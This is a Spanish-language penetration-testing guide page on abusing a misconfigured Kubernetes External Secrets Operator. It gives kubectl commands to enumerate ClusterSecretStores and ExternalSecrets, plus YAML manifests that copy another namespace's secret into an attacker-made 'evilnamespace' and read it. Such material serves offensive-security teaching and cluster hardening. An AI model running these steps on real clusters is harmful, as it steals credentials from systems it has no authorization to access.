 # External Secret Operator

**El autor original de esta página es** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Esta página ofrece algunas indicaciones sobre cómo puedes robar secretos de un ESO mal configurado o de una aplicación que utiliza ESO para sincronizar sus secretos.

## Descargo de responsabilidad

La técnica mostrada a continuación solo puede funcionar cuando se cumplen ciertas circunstancias. Por ejemplo, depende de los requisitos necesarios para permitir que un secreto se sincronice en un espacio de nombres que posees / has comprometido. Necesitas averiguarlo por ti mismo.

## Requisitos previos

1. Un punto de apoyo en un clúster de kubernetes / openshift con privilegios de administrador en un espacio de nombres
2. Acceso de lectura a al menos ExternalSecret a nivel de clúster
3. Averiguar si hay etiquetas / anotaciones o membresía de grupo requeridas que permitan a ESO sincronizar tu secreto. Si tienes suerte, puedes robar libremente cualquier secreto definido.

### Reuniendo información sobre el ClusterSecretStore existente

Suponiendo que tienes un usuario que tiene suficientes derechos para leer este recurso; comienza por listar primero los _**ClusterSecretStores**_ existentes.
```sh
kubectl get ClusterSecretStore
```
### Enumeración de ExternalSecret

Supongamos que encontraste un ClusterSecretStore llamado _**mystore**_. Continúa enumerando su externalsecret asociado.
```sh
kubectl get externalsecret -A | grep mystore
```
_Este recurso está limitado al espacio de nombres, así que a menos que ya sepas en qué espacio de nombres buscar, añade la opción -A para buscar en todos los espacios de nombres._

Deberías obtener una lista de externalsecret definidos. Supongamos que encontraste un objeto externalsecret llamado _**mysecret**_ definido y utilizado por el espacio de nombres _**mynamespace**_. Reúne un poco más de información sobre qué tipo de secreto contiene.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Reuniendo las piezas

Desde aquí puedes obtener el nombre de uno o varios nombres de secretos (como se define en el recurso Secret). Obtendrás una salida similar a:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Hasta ahora hemos obtenido:

- Nombre de un ClusterSecretStore
- Nombre de un ExternalSecret
- Nombre del secreto

Ahora que tenemos todo lo que necesitamos, puedes crear un ExternalSecret (y eventualmente parchear/crear un nuevo Namespace para cumplir con los requisitos necesarios para sincronizar tu nuevo secreto):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Después de unos minutos, si se cumplieron las condiciones de sincronización, deberías poder ver el secreto filtrado dentro de tu espacio de nombres.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referencias

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
